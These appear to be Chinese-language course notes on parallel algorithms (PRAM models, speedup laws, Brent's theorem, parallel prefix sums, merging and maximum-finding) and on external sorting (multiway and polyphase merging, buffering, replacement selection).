在最理想的情况下，加速比是 \(p\)，即使用 \(p\) 个处理器时的运行时间是使用一个处理器时的 \(1/p\)。但实际上，由于并行计算中存在一些额外的开销，如通信开销、同步开销等，同时代码还有可能存在一些不能并行处理的部分、每一个处理器未必能被分配到完全相同的工作量，因此加速比一般来说会小于 \(p\)。
内存共享模型
一般来说，我们在讨论并行计算时会假设所有处理器共享一个连续的内存空间，此外模型还允许同一位置上同时进行多个访问。这种算法模型被称之为 PRAM 模型（Parallel Random Access Machine）。
我们忽略掉一些内存和处理器上的细节，规定这一模型有如下三种内存共享方式：
- EREW（Exclusive Read Exclusive Write）：每个内存位置在任意时刻只能被一个处理器读取或写入；
- CREW（Concurrent Read Exclusive Write）：每个内存位置在任意时刻可以被多个处理器读取，但只能被一个处理器写入；
-
CRCW（Concurrent Read Concurrent Write）：每个内存位置在任意时刻可以被多个处理器读取或写入，因为写入涉及到同时写入不同值可能造成的冲突，因此写入策略又可以分为如下三种：
- CRCW-C（Common）：所有处理器写入的值相同时才会写入；
- CRCW-A（Arbitrary）：所有处理器写入的值可以不同，任意选取其中一个写入即可；
- CRCW-P（Priority）：所有处理器写入的值可以不同，但是有一个优先级，只有优先级最高的写入才会生效。
由于程序中不一定所有的内容都可以被并行执行，那些必须串行执行的部分会影响程序的最大加速比。
阿姆达尔定律（Amdahl's Law）
设 $0 \leqslant f \leqslant 1 $ 是一个程序中必须串行执行的部分的比例，那么使用 \(p\) 个处理器的最大加速比 \(S(p)\) 满足 $$ S(p) = \frac{1}{f + (1-f) / p} $$
证明： 设整个程序串行执行需要的时间为 \(t\)，那么串行部分的时间为 \(ft\)，并行部分的时间为 \((1−f)t\)。使用 \(p\) 个处理器时，串行部分的时间不变，而并行部分的时间最少为 \((1−f)t/p\)，因此总时间最小为 \(ft +(1−f)t/p\)，因此加速比最大为 $$ S(p) = \frac{t}{ft + (1−f)t/p} = \frac{1}{f + (1−f)/p} $$
- 这个定理有一个隐含的假设：当问题规模扩大时，串行计算的部分也会增大。
古斯塔夫森定律（Gustafson's Law）
设某个程序使用 \(p\) 个处理器并行执行时，串行部分使用的时间为 \(f_1\)（不是比例），并行部分使用的时间为 \(f_2\)，那么使用 \(p\) 个处理器的最大加速比 \(S(p)\) 满足 $$ S(p) = \dfrac{f_1 + f_2 \cdot p}{f_1 + f_2} $$
证明：由假设可知，使用 \(p\) 个处理器并行执行的时间为 \(T_p = f_1 + f_2\)，使用一个处理器串行执行的时间应当为 \(T_1 = f_1 + f_2 \cdot p\) ，因此加速比为 $$ S(p) = \frac{T_1}{T_p} = \frac{f_1 + f_2 \cdot p}{f_1 + f_2} $$
- 古斯塔夫森定律认为，当问题规模扩大时，串行计算的部分不会增大，而是会保持一个固定的值。
孙-倪定律（Sun-Ni's Law）
设某个程序串行部分占比为 \(f\)，并行部分占比为 \(1−f\)，内存受限函数为 \(G(p)\)，那么使用 \(p\) 个处理器的最大加速比 \(S(p)\) 满足 $$ S(p) = \cfrac{f + (1-f) \cdot G(p)}{f + \cfrac{(1-f) \cdot G(p)}{p}} $$
- 假设 \(G(p) = 1\)，则问题大小是固定的或是与资源增加无关的，内存限制加速模型简化为 Amdahl 定律
- 假设 \(G(p) = p\)，则内存限制加速模型简化为 Gustafson 定律，这意味着当内存容量增加 \(p\) 倍，工作负载也增加 \(p\) 倍
孙-倪定律是对阿姆达尔定律和古斯塔夫森定律的统一和扩展，它认为在实际应用中，串行部分的比例 \(f\) 会随着问题规模的增大而减小，因此加速比会随着问题规模的增大而增大。
事实上上面的三个定律都是粗糙的估计，我们想要更精细地分析加速比，还需要下面两个定义：
W 与 D
-
我们称工作量（work，workload）\(W\) 是并行中所有任务的总时间，实际上就是使用一个处理器来执行整个任务的执行时间。$$ W = T_1 $$
-
我们称深度（depth）\(D\) 是并行中最长的路径的时间，最长的路径也被称为关键路径，关键路径上的任务有相互依赖的关系，需要一个接一个地执行。
关键路径的长度就是并行执行时间的一个下限，实际上就是使用无限多个处理器来执行整个任务的执行时间。$$ D = T_{\infty} $$
有了上面两个定义，我们就可以把算法的平均并行度定义为 $$ \frac{W}{D} = \frac{T_1}{T_{\infty}} $$
布伦特定理 Brent's Theorem
设一个并行计算问题的工作量为 \(W\)，关键路径长度为 \(D\)，那么使用 \(p\) 个处理器的并行时间具有如下的上下界： $$ \frac{W}{p} \leqslant T_p \leqslant \frac{W-D}{p} + D $$
证明：这个下界是很显然的，因为一定只有最理想的情况下才能把任务完全均分为 \(p\) 份并行执行。
对于上界，因为关键路径长度为 \(D\)，因此整个算法的执行可以分为 \(D\) 个内部并行、互相之间串行的阶段，设每个阶段的工作量为 \(W_i\)，则有 $$ W = \sum_{i=1}^{D} W_i $$ 使用 \(p\) 个处理器时，每一个阶段所需的时间为 $ \lceil W_i/p \rceil$，因此我们需要的总时间就是 $$ T_p = \sum_{i=1}^{D} \lceil W_i/p \rceil = \sum_{i=1}^{D}(\lfloor \dfrac{W_i - 1}{p} \rfloor + 1) \leqslant \sum_{i=1}^{D} (\frac{W_i - 1}{p} + 1) = \frac{W-D}{p} + D $$
其中我们使用了等式 $$ \lceil \frac{x}{y} \rceil = \lfloor \frac{x-1}{y} \rfloor + 1 $$
PPT 中给出的上界是 \(\dfrac{W}{p} + D\)，做题时或许需要考虑按 PPT 的结论还是按上面推导出来的结论
并行求和问题¶
我们首先来看一个简单的并行算法问题，即求出一个长度为 \(n\) 的数组的所有元素的和。
我们可以很自然地想到可以把这些数组的元素两两相加，再把结果继续两两相加，直到最后得到一个结果。这样就构成了下图的一个平衡二叉树。

在这里每一层结点都需要单独计算一次，因此深度 \(D\) 就是树的高度，工作量 \(W\) 就是所有结点的数量。于是 $$ W = O(n), \quad D = O(\log n) $$
我们可以定义 \(B(h,i)\) 为这棵树中从下往上数第 \(h\) 层（从 0 开始）的第 \(i\) 个结点（从 1 开始）对应的值，那么有如下递推关系： $$ B(h,i) = B(h-1,2i-1) + B(h-1,2i) $$
前缀和问题¶
给定一个长度为 \(n\) 的数组 \(A\)，我们需要设计一个并行算法，求出 \(A\) 的前 \(k\) 个元素的和，其中 \(k=1 \cdots n\)。

我们可以定义一个式子（非常巧妙） $$ C(h,i) = \sum_{k=1}^{\alpha} A(k) $$ 其中 \(h\) 表示当前所处的层数，\(i\) 表示该层的第 \(i\) 个节点，\((0, \alpha)\) 是点 \((h,i)\) 为根的子树最右下角的叶子结点，\(A(k)\) 表示数组的第 \(k\) 个元素（从 1 开始）。
我们可以先自底向上用并行求和的方法求出 \(B\)，然后利用 \(B\) 从上往下计算这个 \(C\)，每一层的计算都可以并行，直到计算完成。
-
如果 \(i=1\)，那么 \(C(h,i)=B(h,i)\)，
这是因为 \(i=1\) 的时候，根据定义，\(C(h,1)\) 是从第 1 个元素加到以这一点为根的子树右下角的叶子为止，而 \(B(1,h)\) 事实上也同样是是从第一个元素加到以这一点为根的子树右下角的叶子（从图中可以很清晰地看出这一点）
-
如果 \(i\) 是偶数，这表明这一结点是某个结点的右儿子，因此它和它的父亲最右下角的叶子是同一个，因此有 \(C(h,i)=C(h+1,i/2)\)；
-
如果 \(i\) 是奇数且不是 1，这表明这一结点是某个结点的左儿子，它自己的值 \(B(h,i)\) 就不是从最底层的第 1 个数开始相加得到的，所以我们要选一个左边的点，缺少的这部分补上，即 \(C(h,i)= C(h+1,(i-1)/2)+B(h,i)\)。
需要注意的是，如果不是并行算法，\(C(h+1,(i-1)/2)\) 可以替换为 \(C(h,i-1)\)，但因为并行算法要求每一行是同时在计算的，所以只能使用上一行的数据
这一种并行算法的深度是 \(O(\log n)\)，总工作量是 \(O(n)\)，因为我们实际上就是先从下到上计算 \(B\)，再从上到下计算 \(C\)，执行了两次分层的并行计算。
伪代码

归并问题¶
归并排序的关键在于如何把两个已经排好序的子数组 \(\{ A(1) \cdots A(n) \}\) 和 \(\{ B(1) \cdots B(m) \}\) 合并成一个大数组 \(\{ C(1) \cdots C(n+m) \}\)。
简单的想法¶
如果我们能同时将 \(A\) 和 \(B\) 中的所有元素在最后的数组 \(C\) 中的对应位置找到，然后同时将它们放到正确的位置上，那么我们就可以用并行算法快速解决这一问题。
Tip
对于元素 \(A(i)\)，它是 \(A\) 中的第 \(i\) 个元素（下标从 1 开始），那么它在前面有 \(i-1\) 个元素。假如我们能找到它在 \(B\) 中的位置是 $$ B(j) < A(i) \leqslant B(j+1) $$ 那么就意味着还有 \(j\) 个 \(B\) 中的元素要在 \(A(i)\) 之前，在数组 \(C\) 中会有 \(i+j-1\) 个元素在它之前，因此 \(A(i)\) 在 \(C\) 中的位置就是第 \(i+j\) 个，即 \(C(i+j)\)。
同理，对于 \(B\) 中的元素也可以通过相同的办法来找到它在 \(C\) 中的位置。

这样我们就把归并问题转化为了找到某个数组中的一个元素在另一个数组中的位置的问题。对这个问题我们有两种策略：
-
逐个元素二分查找：使用二分查找找到一个元素在另一个数组中的位置只需要 \(O(\log n)\) 的时间，因此深度 \(D=O(\log n)\)，总工作量为 \(O(n \log n)\)
然后我们需要将所有元素放到正确的位置上，这一过程的深度为 \(O(1)\)，总工作量为 \(O(2n)=O(n)\)（如果数组长度不同则是 \(O(n+m)\)）
两步合起来深度为 \(O(\log n)\)，总工作量为 \(O(n\log n)\)
-
直接无脑从前向后依次比较，完全没有并行，深度和工作量都是 \(O(n)\)（或 \(O(n+m)\)）。伪代码如下：
这两种方法显然都不太好，第一种方法的总工作量太大，而第二种方法的深度太大。
划分范式¶
划分范式的想法非常简单，且实际运用起来非常有效，分为如下两个步骤：
- 划分（partitioning）：把原问题划分为很多（设为 \(p\) 个）很小的子问题，每个子问题大小大致为 \(n/p\)
- 真实工作（actual work）：同时对所有子问题进行处理，得到最终结果。
Tip
我们可以注意到，上面的二分查找相当于将原问题划分为了 \(n\) 个子问题，即 \(p=n\)，而线性的方法则完全没有划分，即 \(p=1\)。因此这两种方法分别对应于划分范式的两个极端。
下面我们来套用上面的方法来解决这个问题。
-
划分：我们首先分别将两个数组划分为 \(p\) 份，\(p\) 是一个很大的值，使得每个子问题很小，然后我们求出每一个子问题的第一个元素在另一个数组中的位置。
这一步使用二分查找，这样这个子问题的深度为 \(O(\log n)\)，总工作量为 \(O(p \log n)\)。


-
真实工作：如上图所示，现在我们要做的就是把两个相邻箭头之间的部分在这个很小的区域内确认相对位置，这些位置确定后可以根据上一步划分中得到的结果确定在整个最终的数组中的位置。
很显然的是，这些箭头不会交叉，那么这些箭头就会分割出至多 \(2p\) 个大小为 \(O(n/p)\) 的子问题。
- 我们可以并行地对每个子问题进行线性查找，这是因为每个子问题大小都很小，深度为 \(O(n/p)\) 也很小，总工作量为 \(2p \cdot O(n/p) = O(n)\) 也不算大，符合我们的要求。
- 而如果这时候我们使用二分查找，总工作量就是 $$ 2p \cdot \frac{n}{p} O(\log \frac{n}{p}) = O(n \log \frac{n}{p}) $$ 这是因为有 \(2p\) 个子问题，每个子问题都至多有 \(n/p\) 个元素要用至多 \(\log(n/p)\) 的时间确定位置，这无法保证是 \(O(n)\) 的，因此我们不使用二分查找。
经过上面的分析，我们知道第一步划分的总工作量为 \(O(p \log n)\)，第二步真实工作的深度为 \(O(n/p)\)，这两个部分的时间复杂度是未知的。而我们希望找到一个合适的 \(p\)，使得第一步总工作量是 \(O(n)\) 的，第二步深度是 \(O(\log n)\) 的（因为深度和总工作量不可能比这个还小）。这样我们就可以得到一个深度为 \(O(\log n)\)，总工作量为 \(O(n)\) 的并行算法，成功做到取长补短。
很容易看出，\(p = \dfrac{n}{\log n}\) 就是满足条件的，因此我们选择这个 \(p\)，就得到了一个深度为 \(O(\log n)\)，总工作量为 \(O(n)\) 的并行算法。
寻找最大元素问题¶
对于从一个数组中找到最大元素的问题，我们也希望能有一种并行算法。
这里我们将会讨论并第三种并行算法的设计范式，即双对数范式，这是二叉树的一种扩展；然后讨论加速级联范式，它可以综合不同的并行算法得到更好的并行算法。
不使用划分范式¶
我们先考虑一种不使用划分范式的方法，用类似于前面求和问题的做法，构造一棵二叉树，初始元素两两分组比较，然后逐层上递，最终得到最大值。这样的算法深度为 \(O(\log n)\)，总工作量为 \(O(n)\)。
我们也可以采取更加激进的策略：一次性并行比较所有元素。我们并行比较每一对元素 \(A[i]\) 和 \(A[j]\)，只要 \(A[i]\) 在比较中是较小的一方，就往新的数组 \(B[i]\) 处写 1（\(B\) 的所有位置初始化为 0），最后那个最大的元素肯定从来没被写过 1，因此还保持着 0。然后我们再并行判断 \(B\) 中哪一个元素是 0，那么它对应的 \(A[i]\) 就是最大值。
在并行比较每一对元素时，我们可能会有多个线程同时往数组 \(B\) 中进行写入，实际上我们只需要使用前面提到的 CRCW 策略允许同时写入，然后按 common rule 写入即可。因为这里所有线程往任意一个 \(B[i]\) 只会写入 1 这个数字，所以写入的内容都是一样的，故用 common 就能实现写入。
很显然，这个算法的深度很理想，是 \(O(1)\) 的，但由于需要比较每一对元素的值，因此总工作量是 \(O(n^2)\) 的。如果能在深度和总工作量上取长补短，那么最终的结果就很完美了。
双对数范式（Doubly-logarithmic Paradigm）¶
双对数范式是一种二叉树的扩展。在完全二叉树中，设叶子的数量为 \(n\)，那么树高是 \(\log n\) 级别的，这里双对数则是希望构造一棵树，使得树高是 \(\log \log n\) 级别的。为了构造这样一棵树，我们首先设树中每个节点的 level 表示从根到该节点的距离（需要经过的边数），根的 level 为 0。接下来我们构造这棵树如下：
- 设某个节点的 level 为 \(s\)，当 \(s \leqslant \log \log n-1\) 时，则它有 \(2^{2^{h-s-1}}\) 个孩子
- 当 \(s = \log \log n\) 时，它有 2 个孩子作为树的叶子
其中 \(h = \log\log n\)。不难验证这样一棵树的叶子数量的确是 \(n\)，高度也是 \(\log \log n\) 级别的。下图是一个 16 个叶子的双对数树示例：

事实上我们还可以观察到，不在倒数两行的结点的 level 为 \(s\) 时，根据定义它有 \(2^{2^{h-s-1}}\) 个孩子，并且以它为根的子树的叶子数量可以算出来是 \(2^{2^{h-s}}\) ，而我们知道 $$ 2^{2^{h-s-1}} = \sqrt{2^{2^{h-s}}} $$ 也就是说在每个结点处，我们把问题分成了 \(\sqrt{m}\) 个子问题，其中 \(m\) 为该节点对应的子树的叶子数量。而且以双对数树某一层单个节点为根的子树的叶子数，其实是上一层某个节点为根的子树的叶子数开根号（因为层数为 \(s\) 的某个节点，以它为根的子树的叶子数量是 \(2^{2^{h-s}}\)，\(s\) 每增加 1 实际上就是开一次根号），因此层数越往下，就相当于子问题大小逐步开根号。
假设原问题输入大小为 \(n\)，那么我们可以通过增加一些 dummy 节点使得我们可以构造出以这 \(n\) 个节点为叶子的双对数树，这样我们就可以使用双对数范式来设计一个并行算法，即在每一层将问题分为 \(\sqrt{m}\) 个子问题，\(m\) 为以这一层的单个节点为根的子树的叶子数量，这样每个子问题（其实就是树上某个节点）对应的叶子数也就是 \(\sqrt{m}\) 了，这就和双对数树结合起来了。我们熟知的二叉树则是每层分成两个子问题，是更简单的策略。
现在我们可以把这一思路套用在我们的问题上：我们首先将数组划分为 \(\sqrt{n}\) 份，每一份的大小为 \(\sqrt{n}\)，然后我们并行地递归找到每一份中的最大值，最后归并阶段再并行找到这 \(\sqrt{n}\) 个最大值中的最大值即可。
设整个算法深度为 \(D(n)\)，工作量为 \(W(n)\)，它们都是关于数组长度的函数。
- 寻找每一份中的最大值我们采用递归的策略，因此长度为 \(\sqrt{n}\) 的数组的最大值的寻找需要 \(D(\sqrt{n})\) 的深度和 \(W(\sqrt{n})\) 的总工作量。
- 在归并阶段，返回的 \(\sqrt{n}\) 个最大值中的最大值我们采用前面的两两比较的方法即可，深度为 \(O(1)\)，总工作量为 \(O((\sqrt{n})^2)=O(n)\)。于是我们按照分治法的方式可以写出递推式 $$ \begin{cases} D(n) = D(\sqrt{n}) + O(1) \\ W(n) = \sqrt{n} W(\sqrt{n}) + O(n) \end{cases} $$ 具体推导过程不赘述，最终的结果是我们得到了一个 \(D(n) = O(\log \log n)\)，\(W(n) = O(n \log \log n)\) 的并行算法。

加速级联范式（Accelerating Cascades Paradigm）¶
思路类似于双对数范式，只不过划分的大小不同
- 将数组分为 \(\dfrac{n}{\log \log n}\) 份，即每一份的大小为 \(\log \log n\)。实际上每一份的大小都很小了，所以我们可以直接利用线性查找的方式找到每一份的最大值，则每一份的深度和工作量都是 \(O(\log \log n)\) 的；
- 然后我们对上面求出的 \(\dfrac{n}{\log \log n}\) 个最大值使用双对数范式的算法。
总的深度等于每一个部分的深度加上双对数范式的深度 $$ D(n) = O(\log \log n) + O(\log \log (n/ \log \log n)) = O(\log \log n) $$
总工作量等于每一份的工作量之和加上双对数范式的工作量 $$ W(n) = \dfrac{n}{\log \log n} \cdot O(\log \log n) + O(\dfrac{n}{\log \log n} \cdot \log \log (n/ \log \log n)) = O(n) $$

随机算法¶
接下来我们将介绍一种随机算法，它可以保证以非常高的概率在 \(O(1)\) 的深度和 \(O(n)\) 的工作量内找到最大值。
- 第一步：从长度为 \(n\) 的数组 \(A\) 中，依照均匀分布随机取出 \(n^{7/8}\) 个元素，得到新的数组记为 \(B\)。这一步需要 \(n^{7/8}\) 个处理器各自负责抽一个然后放到内存中某个位置，深度为 \(O(1)\)，总工作量为 \(O(n^{7/8})\)；
-
第二步：求出 \(B\) 中的最大值，使用确定性的算法实现，通过如下三个子步骤实现：
-
把 \(B\) 分成 \(n^{3/4}\) 个长度都为 \(n^{1/8}\) 的子数组，然后使用两两比较的暴力算法并行找到每个子数组的最大值，这一步深度为 \(O(1)\)，总工作量为 $ n^{¾} \cdot O((n^{⅛})^2)=O(n)$
因为有 \(n^{3/4}\) 个子数组，每个子数组用两两比较的办法的复杂度是数组长度平方级别的；然后将这 \(n^{3/4}\) 个最大值放在新数组 \(C\) 中
-
把 \(C\) 分成 \(n^{1/2}\) 个长度都为 \(n^{1/4}\) 的子数组，然后继续使用两两比较的暴力算法并行找到每个子数组的最大值
这一步深度为 \(O(1)\)，总工作量为 \(n^{1/2} \cdot O((n^{1/4})^2)=O(n)\)，然后将这 \(n^{1/2}\) 个最大值放在新数组 \(D\) 中
-
数组 \(D\) 直接使用两两比较的方法找到最大值，这一步深度为 \(O(1)\)，总工作量为 \(O((n^{1/2})^2) = O(n)\)
综合上述方法，整个第二步相当于一个三轮的淘汰赛，每一轮的深度都为 \(O(1)\)，总工作量都为 \(O(n)\)，整体而言第二步的深度为 \(O(1)\)，总工作量为 \(O(n)\)，并且我们能求出 \(B\) 中的最大值，也就是抽取的 \(n^{7/8}\) 个元素中的最大值；
-

-
第三步：目前我们只得到了 \(n^{7/8}\) 个元素中的最大值（记为 \(M\)），如何进一步提高找到所有元素中最大值的概率呢？答案是再来一轮。
但是这再来一轮是有讲究的。这一步我们首先均匀分布取出 \(n^{7/8}\) 个元素，得到数组 \(B\)。然后用 \(n\) 个处理器，每个处理器放 \(A\) 的一个元素，将其与前一步得到的 \(M\) 进行比较，如果小于 \(M\) 则什么也不用做，大于 \(M\) 则往数组 \(B\) 的一个随机位置写入这一更大的值（为什么要随机写入呢？因为一共 \(n\) 个处理器，但只有 \(n^{7/8}\) 个位置可供选择，不能一一对应位置供每个处理器使用，但我们又要在 \(O(1)\) 时间内完成位置分配，只能是随机了）。上述比较和随机写入的过程深度为 \(O(1)\)，总工作量为 \(O(n)\)。
写完后，我们再次求出更新后的 \(B\) 中的最大值，这一步的深度和工作量和第二步一样，因此是 \(O(1)\) 的深度和 \(O(n)\) 的工作量。

因此我们最终得到的算法的深度为 \(O(1)\)，总工作量为 \(O(n)\)，并且以非常高的概率找到了数组 \(A\) 中的最大值。
Theorem
以上算法以非常高的概率在 \(O(1)\) 的深度和 \(O(n)\) 的工作量内找到数组 \(A\) 中的最大值：存在常数 \(c\)，使得算法只有 \(\dfrac{1}{n^c}\) 的概率无法在这一时间复杂度内找到最大值。
证明略
外部排序¶
约 3432 个字 12 张图片 预计阅读时间 14 分钟
问题引入
大部分内部排序算法都用到内存可直接寻址的事实。但是，当数据量大于内存容量时，我们就需要考虑外部排序。如果输入数据在磁带上，那么所有这些操作就失去了它们的效率，因为磁带上的元素只能被顺序访问（磁头只能顺序移动，如果不顺序访问那就很耗时间）。即使数据在一张磁盘上，由于转动磁盘和移动磁头所需的延迟，仍然存在实际上的效率损失。
基于这一原因，我们在外部排序时适合使用的是归并排序，因为归并排序的时间复杂度来源于归并，而归并只需要顺序扫描两个有序数组，然后写入的时候也是顺序写入，因此适用于外部排序。
简单算法¶

设我们有四盘磁带，\(T_{a1} ,T_{a2} ,T_{b1} ,T_{b2}\)，它们两两一组交替作为输入磁带和输出磁带。
设数据最初在 \(T_{a1}\) 上，并设初始数组有 \(N\) 个元素，并且内存可以一次容纳（和排序）\(M\) 个记录（在这里，记录是含有一定量数据的一个单位）。一种自然的做法是
- 第一步从输入磁带 \(T_{a1}\) 一次读入 \(M\) 个记录到内存中，在内存内部将这些记录排序，然后再把这些排过序的记录交替地写到 \(T_{b1}\) 或 \(T_{b2}\) 上。我们将把每组排序好的记录叫做一个顺串（run）。
- 现在 \(T_{a1}\) 上的数据已经都取出来了，将\(T_{b1}\) 和 \(T_{b2}\) 作为输入磁带，把它们两个的第一个顺串取出并按顺序合并（归并），把结果写入到 \(T_{a1}\) 上，这个结果是一个二倍长的顺串。然后再取出各自的下一个顺串合并到 \(T_{a2}\) 上，重复这个过程直到 \(T_{b1}\) 或 \(T_{b2}\) 为空。此时，或者它们均为空，或者剩下一个顺串。对于后者，我们把剩下的顺串拷贝到适当的磁盘末尾即可。
- 我们重复上述步骤，直到最终得到一个长为 \(N\) 的顺串为止。
显然因为每一趟工作后顺串长度都加倍，该算法将需要 \(\lceil \log_2(N/M) \rceil\) 趟工作（这里的趟就是 PPT 上的 pass，表示一轮从输入磁盘把数据合并、运输到输出磁盘的整个工作），外加一趟从磁带 \(T_{a1}\) 开始把完全打乱的数据运输到 \(T_{b1}\) 或 \(T_{b2}\) 上构造初始的顺串的过程。
例如上面 PPT 上的例子，第一趟构造出长度为 3 的顺串，接下来是三趟工作：顺串长度依次由 3 变 6，6 变 12，12 变 13，因此共 4 趟操作。
Example
若我们有 1000 万个记录需要排序，每个记录是 128 个字节，并且我们的内存容量为 4MB，那么我们需要多少趟（pass）操作？
解答：由于 4MB = \(2^{22}\) bytes，因此内存中一次可以读取 \(2^{22} / 128 = 2^{17}\) 个记录，因此一个顺串的大小也就为 \(2^{17}\) 个记录。于是第一步我们会产生 $ 10^7 / 2^{17} = 305.17 \approx 306$ 个顺串，因此我们总共需要 \(1+ \lceil log_2(306) \rceil = 1+9 = 10\) 趟操作。
PPT 中认为第一步会产生 320 个顺串，这是因为它把 4MB 当作 \(4 \times 10^6\) bytes 了，虽然这并不会影响最终的结果。
从上面这个简单算法中我们可以找到一些优化的方向
- 减少工作的趟数
- 减少合并的次数
- 使用缓冲区来实现并行的操作
- 优化顺串的构造
多路合并¶
第一个优化方向就是减少工作的趟数，显然如果我们把 2 路归并转换为 \(k\) 路的归并，也就是每次归并 \(k\) 条纸带上对应位置的顺串。那么每次合并后顺串长度增加 \(k\) 倍，因此加上初始的 1 趟，我们只需要 \(1 + \lceil \log_k(N/M) \rceil\) 趟即可完成排序，减少了趟数，因此减少了磁带移动的次数，从而减少总时间。这样的算法称为 \(k\) 路合并。

\(k\) 路合并有一个实现上需要注意的点，因为我们是 \(k\) 个顺串要合并，因此我们需要不断的在 \(k\) 个元素中选取最小值放到输出的磁带上，这个操作可以使用优先队列来实现，具体的例子可以从上图中看出。
尽管多路合并减少了趟数，但是由于 \(k\) 路合并的每一趟工作需要 \(k\) 个输入磁带和 \(k\) 个输出磁带，需要的磁带总数是 \(2k\)，这一点就不太令人满意了，因为这大大增加了磁带的使用量，因此我们需要思考另一种优化方案。
多相（Polyphase）合并¶
多相合并于多路合并不同，它能够大大减小归并需要的磁带数目： \(k\) 路合并只需要 \(k+1\) 条磁带。
Example
设有三盘磁带 \(T_1\)、\(T_2\) 和 \(T_3\)，在 \(T_1\) 上有一个输入文件，它将产生 34 个顺串。
一种选择是在 \(T_2\) 和 \(T_3\) 的每一盘磁带中放入 17 个顺串。然后我们可以将结果合并到 \(T_1\) 上，得到一盘有 17 个顺串的磁带。由于这时候所有的顺串都在一盘磁带上，因此我们现在必须把其中的一些顺串放到 \(T_2\) 上才能够进行后续的合并。
执行合并的逻辑方式是将前 8 个顺串从 \(T_1\) 拷贝到 \(T_2\) 并进行合并。这样的效果是，为了我们所做的每一趟合并，我们不得不附加额外的复制工作，而复制也和合并一样需要磁头的移动，是很昂贵的操作，因此这种方法并不好。
这么进行下去后，我们会发现总共需要 1 趟初始操作 + 6 趟工作，外加 5 次复制操作。

另一种选择是把原始的 34 个顺串不均衡地分成两份。设我们首先把 21 个顺串放到 \(T_2\) 上，把 13 个顺串放到 \(T_3\) 上。然后，我们把 \(T_3\) 上的 13 个顺串和 \(T_2\) 的前 13 个顺串合并到 \(T_1\) 上。我们就得到了具有 13 个顺串的 \(T_1\) 和 8 个顺串的 \(T_2\)，再将它们的前 8 个顺串合并到 \(T_3\) 上，以此类推，最后一步操作就是存放在两个不同磁带上的两个顺串进行合并，得到最终的结果。


在第二种方案中，我们需要 1 趟初始操作 + 7 趟工作，而不需要任何复制操作。
从上面的例子中我们可以知道，顺串最初的分配对于整个外部排序而言十分重要，事实上，我们给出的最初 21+13 的分配是最优的，否则都可能出现上面的需要复制或者有长短不对齐导致浪费的情况。很容易发现，这两个数字都是斐波那契数。
Note
如果顺串的个数是一个斐波那契数 \(F_n\)，那么分配这些顺串最好的方式是把它们分裂成两个斐波那契数 \(F_{n−1}\) 和 \(F_{n−2}\)。否则，为了将顺串的个数补足成一个斐波那契数，我们就必须用一些哑顺串（dummy run）来填补磁带。
我们还可以把上面的做法扩充到 \(k\) 路合并，此时我们需要第 \(k\) 阶斐波那契数用于分配顺串，其中 \(k\) 阶斐波那契数定义为 $$ F^{(k)}(n) = F^{(k)}(n-1) + F^{(k)}(n-2) + \cdots + F^{(k)}(n-k) $$ 辅以适当的初始条件 \(F^{(k)}(0) = F^{(k)}(1) = \cdots = F^{(k)}(k-2) = 0, F^{(k)}(k-1) = 1\)。
这样我们就可以用 \(k+1\) 盘磁带完成 \(k\) 路合并。
Tip
\(k\) 路合并的具体操作值得说明一下。事实上经过第一步拆分之后，我们每个磁带上的顺串个数应当分别为 $$ \begin{aligned} \text{磁带 1} & : F^{(k)}(n-1) + F^{(k)}(n-2) + \cdots + F^{(k)}(n-k) \\ \text{磁带 2} & : F^{(k)}(n-1) + F^{(k)}(n-2) + \cdots + F^{(k)}(n-k+1) \\ & \cdots \\ \text{磁带 k} & : F^{(k)}(n-1) \\ \text{磁带 k+1} & : 0 \end{aligned} $$ 然后我们合并磁带 \(1\) 到 \(k\) 的前 \(F^{(k)}(n-1)\) 个顺串，将合并后的结果放到磁带 \(k+1\) 上，此时不同磁带上的顺串个数变为 $$ \begin{aligned} \text{磁带 1} & : F^{(k)}(n-2) + F^{(k)}(n-3) + \cdots + F^{(k)}(n-k) \\ \text{磁带 2} & : F^{(k)}(n-2) + F^{(k)}(n-3) + \cdots + F^{(k)}(n-k+1) \\ & \cdots \\ \text{磁带 k} & : 0 \\ \text{磁带 k+1} & : F^{(k)}(n-1) = F^{(k)}(n-2) + F^{(k)}(n-3) + \cdots + F^{(k)}(n-k-1) \end{aligned} $$ 可以看出此时我们的顺串个数分布与之前的是类似的，只是下标减了 1，因此我们可以继续重复这个操作，合并除了磁带 \(k\) 之外的所有磁带的前 \(F^{(k)}(n-2)\) 个顺串，将结果放到磁带 \(k\) 上，以此类推，直到顺串数量为 1，这时候我们就完成了整个排序。
缓存并行处理¶
实际上我们实现外部排序的时候，肯定是一块一块地读入数据的，并且也不是每比较了一次就要往磁盘写一个元素，否则每次比较完都要等待磁盘处理很长时间才能进行下一次比较，非常耗时。
实际上在 2 路合并中，我们应该是把内存划分为 2 个输入缓存区（buffer），1 个输出缓存区，输入缓存区用来存放从输入磁盘读入的数据，然后两个输入缓存区的数据比较之后的排序结果先放到输出缓存区，当输出缓存区满了之后再一次性把这些数据写入输出磁盘。
然而这样的实现仍然存在问题：输出缓存区要写回磁盘的时候，内存什么都干不了，需要等待写回操作结束后才能继续比较并把比较结果写到输出缓存区上。因此我们可以划分出两个输出缓存区，当其中一个满了正在写回磁盘的时候，另一个输出缓存区继续接收数据，这样就可以实现并行处理了——一个在内存里操作，一个进行 I/O 交互。
这时候我们可以注意到，如果仍然是 2 个输入缓存，当所有输入缓存中的数据都比较完了，这时我们也要被迫停止等待新的数据从输入磁盘中读入。因此我们也可以划分出 4 个输入缓存，这样当其中两个输入缓存中的数据正在比较的时候，另外两个输入缓存可以同时并行地读入新的数据。
Idea
这时候我们就会发现，在 \(k\) 路合并中，如果 \(k\) 太大，那么尽管它减少了工作趟数，但是会把内存划分为 \(2k\) 个输入缓存区和 \(2\) 个输出缓存区，这样当 \(k\) 很大的时候，我们的输入缓存就会被划分得很细，一次能读入输入缓存的数据量就会减小（也就是 block 大小降低），那么我们的 I/O 操作就会变多，因此结果也不一定更好
替换选择¶
最后我们将要考虑的优化方向是优化顺串的构造。迄今我们已经用到的策略是每个顺串的大小都是内存的大小，然而事实上这一长度还可以进一步扩展。
当某个内存位置上的元素已经写入磁盘后，这个位置就可以空出来给数组后续的元素使用。只要后续的元素比现在写入的更大，就可以直接往顺串后面添加该元素，因为这时候新元素的加入并不会影响升序排列的性质。






如上面图片所示，我们在内存中维护一个优先队列，每次从队列中取出比当前顺串中最后一个元素更大的元素中最小的那一个写入磁盘，然后再从磁盘中读入一个元素放入队列中，直到队列中的所有元素都比顺串的最后一个要小，就开启一个新的顺串。
